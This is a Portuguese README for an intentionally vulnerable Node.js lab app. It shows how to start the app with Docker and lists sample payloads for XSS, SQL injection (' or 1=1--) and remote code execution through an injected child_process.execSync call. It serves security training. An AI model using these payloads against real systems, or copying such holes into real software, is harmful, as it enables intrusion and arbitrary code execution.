




# Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução
Descompactação e execução dos containers por linha de comando.
```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```
Exemplo após a inicialização dos containers.


URL para acesso à aplicação.
```
http://localhost:3000
``````


## Vulnerabilidades 
### XSS

Payload de exploração
```
/?userInput=<script>alert(1)</script>
```
Evidência


### SQL Injection

Payload de exploração
```
/users?username='+or+1=1--&access-token=' 
```

Evidência em uso normal do endpoint.
 


### RCE
Payload de exploração
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
``` 

Evidência
